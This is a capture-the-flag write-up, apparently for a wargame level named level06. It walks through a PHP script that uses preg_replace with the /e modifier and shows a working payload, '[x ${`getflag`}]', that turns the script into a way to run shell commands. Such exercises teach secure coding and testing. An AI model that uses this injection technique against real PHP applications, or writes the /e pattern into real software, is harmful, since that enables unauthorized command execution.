

## STEPS

### 1. Initial Investigation:
In the home directory, I found two files: a PHP script named level06.php and its corresponding binary called level06.
The PHP script contains the following code:

```
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m; 
}
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

- The y($m) function replaces periods (.) with " x " and @ symbols with " y ".
- The x($y, $z) function reads the contents of a file specified by $y, replaces occurrences of [x ...] with the result of applying the y($m) function to the inner content , and returns the modified content.
- Finally, the script reads two command-line arguments ($argv[1] and $argv[2]), passes them to the x() function, and prints the result.

Understanding the script's functionality, I realized that the /e modifier in the preg_replace function allows for the evaluation of the replacement string as PHP code. This presents an opportunity for command execution.

I created a file in /tmp named payload.txt with the content **[x ${getflag}]**
```
echo '[x ${`getflag`}]' > /tmp/payload.txt
```

This payload will be passed as the first argument to the PHP script. The **${`getflag`}** expression executes the getflag command.

### 2.Executing the Payload::
With the payload crafted, I executed the binary level06 with */tmp/payload.txt* as the first argument and any second argument (as it is not used by the script). This caused the script to execute the getflag command and print the flag.

